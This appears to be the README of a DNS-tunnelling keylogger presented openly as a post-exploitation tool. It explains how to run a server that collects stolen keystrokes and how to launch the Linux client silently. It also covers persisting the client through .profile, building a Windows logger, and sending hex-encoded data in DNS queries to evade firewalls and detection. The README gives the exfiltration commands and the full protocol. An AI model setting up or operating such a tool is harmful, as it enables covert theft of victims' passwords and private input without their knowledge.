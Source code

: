# DNS Tunnel Keylogger
This post-exploitation keylogger will covertly exfiltrate keystrokes to a server. 

These tools excel at lightweight exfiltration and persistence, properties which will prevent detection. It uses DNS tunelling/exfiltration to bypass firewalls and avoid detection.
# Server
## Setup
The server uses python3.

To install dependencies, run `python3 -m pip install -r requirements.txt`
## Starting the Server
To start the server, run `python3 main.py`
```
usage: dns exfiltration server [-h] [-p PORT] ip domain

positional arguments:
  ip
  domain

options:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  port to listen on
```
By default, the server listens on UDP port 53. Use the `-p` flag to specify a different port.

`ip` is the IP address of the server. It is used in SOA and NS records, which allow other nameservers to find the server.

`domain` is the domain to listen for, which should be the domain that the server is authoritative for.

# Client
## Linux
The Linux keylogger is two bash scripts. `connection.sh` is used by the `logger.sh` script to send the keystrokes to the server. If you want to manually send data, such as a file, you can pipe data to the `connection.sh` script. It will automatically establish a connection and send the data.
### `logger.sh`
```
Usage: logger.sh [-options] domain
Positional Arguments:
  domain: the domain to send data to
Options:
  -p path: give path to log file to listen to
```
To start the keylogger, run the command `./logger.sh [domain] &> /dev/null && exit`. This will silently start the keylogger, and any inputs typed will be sent. The `&& exit` at the end will cause the shell to close on `exit`. Without it, exiting will bring you back to the non-keylogged shell. Remove the `&> /dev/null` to display error messages.

The `-p` option will specify the location of the temporary log file where all the inputs are sent to. By default, this is `/tmp/`.

`logger.sh` and `connection.sh` must be in the same directory for the keylogger to work. If you want persistance, you can add the command to `.profile` to start on every new interactive shell or on login.
### `connection.sh`
```
Usage: command [-options] domain
Positional Arguments:
  domain: the domain to send data to
Options:
  -n: number of characters to store before sending a packet
```
## Windows
### Build
To build the program, run `make` in the `windows` directory. This will create the `build` directory for you and output to a file named `logger.exe` in the `build` directory. Will listen for all keystrokes when run.
## Sending Test Requests
You can use `dig` to send requests to the server:

`dig @127.0.0.1 a.1.1.1.example.com A +short` send a connection request to a server on localhost.

`dig @127.0.0.1 b.1.1.54686520717569636B2062726F776E20666F782E1B.example.com A +short` send a test message to localhost.

Replace `example.com` with the domain the server is listening for.

# Protocol
## Starting a Connection
A record requests starting with `a` indicate the start of a "connection." When the server receives them, it will respond with a fake non-reserved IP address where the last octet contains the id of the client.

The following is the format to follow for starting a connection: `a.1.1.1.[sld].[tld].`

The server will respond with an IP address in following format: `123.123.123.[id]`

Concurrent connections cannot exceed 254, and clients are never considered "disconnected."
## Exfiltrating Data
A record requests starting with `b` indicate exfiltrated data being sent to the server.

The following is the format to follow for sending data after establishing a connection: `b.[packet #].[id].[data].[sld].[tld].`

The server will respond with `[code].123.123.123`

`id` is the id that was established on connection. Data is sent as ASCII encoded in hex.

`code` is one of the codes described below.
## Response Codes
### `200`: OK
If the client sends a request that is processed normally, the server will respond with code `200`.
### `201`: Malformed Record Requests
If the client sends an malformed record request, the server will respond with code `201`.
### `202`: Non-Existant Connections
If the client sends a data packet with an id greater than the # of connections, the server will respond with code `202`.
### `203`: Out of Order Packets
If the client sends a packet with a packet id that doesn't match what is expected, the server will respond with code `203`. Clients and servers should reset their packet numbers to 0. Then the client can resend the packet with the new packet id.
### `204` Reached Max Connection
If the client attempts to create a connection when the max has reached, the server will respond with code `204`.
## Dropped Packets
Clients should rely on responses as acknowledgements of received packets. If they do not receive a response, they should resend the same payload.

# Side Notes
## Linux
### Log File
The log file containing user inputs contains ASCII control characters, such as backspace, delete, and carriage return. If you print the contents using something like `cat`, you should select the appropriate option to print ASCII control characters, such as `-v` for `cat`, or open it in a text-editor.
### Non-Interactive Shells
The keylogger relies on `script`, so the keylogger won't run in non-interactive shells.
## Windows
### Repeated Requests
For some reason, the Windows Dns_Query_A always sends duplicate requests. It still works for sending messages, but on every data messaged received, you will get "out of order packet" warnings.